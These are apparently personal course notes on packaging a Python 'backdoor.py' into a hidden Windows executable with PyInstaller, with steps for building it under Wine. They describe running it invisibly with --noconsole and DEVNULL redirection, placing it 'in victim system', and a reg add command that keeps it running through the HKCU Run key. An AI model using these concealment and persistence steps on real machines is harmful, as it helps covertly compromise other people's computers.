 Packaging using pyinstaller

install pyinstaller to convert and pack all python code into 1 executable for the target operating system

pip install pyinstaller 
#for linux

c:\python27\python.exe -m pip install pyinstaller
or
c:\python27\scripts\pip.exe install pyinstaller
#for windows


Create python exe on windows system

c:\python27\scripts\pyinstaller.exe backdoor.py --onefile 
#pack all lib and support files in --onefile
#it will create a binary executable of backdoor it will execute when double click but with visible execution

c:\python27\scripts\pyinstaller.exe backdoor.py --onefile --noconsole
#to run invisible in background
in code for functions like check_output, redirect stdin and stderr to DEVNULL so no console appears even after --noconsole

#in python3
subprocess.check_output(commmad,shell=True,stderr=subprocess.DEVNULL,stdin=subprocess.DEVNULL)

#in python2
DEVNULL = open(os.devnull,"wb")
subprocess.check_output(commmad,shell=True,stderr=DEVNULL,stdin=DEVNULL)


To create a Python Executable it is better to do in the same os environment similar to your target
that is to run a py executable in windows, create the py exe in windows operating system so the required lib and 
modules are packaged and then put the py exe in victim system to run

Use windows Python Interpreter in Linux - example python-2.7.14.msi
wine is used to run windows software in linux

Install python executable in linux
wine msiexec /i python-2.7.15.amd64.msi
using this we get a normal windows installer similar to windows.

Location of wine installation of python - wine creates a virtual location for c drive of windows
~/.wine/drive_c/Python27/ - this will have the python.exe

pip install in windows interpreter of linux
~/.wine/drive_c/Python27/wine python.exe -m pip install pyinstaller

# to package a program, ensure all libraries it requires are already installed on the system.
install a package using pip - on linux using windows py interpreter
wine /root/.wine/drive_c/Python27/python.exe -m pip install pyinput

# convert the main program file that references all other required files, pyinstaller will automatically
# package all required dependencies like other project code files and libraries


Maintain persistence by putting the script in startup programs, when the os boots these scripts always gets executed.

in windows Registry - this location has the startup apps
Computer\HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run

in cmd prompt we can change value - to add to the startup apps list
reg add HKCV\Software\Microsoft\Windows\CurrentVersion\Run /v name /t REG_SZ /d "location of backdoor.exe"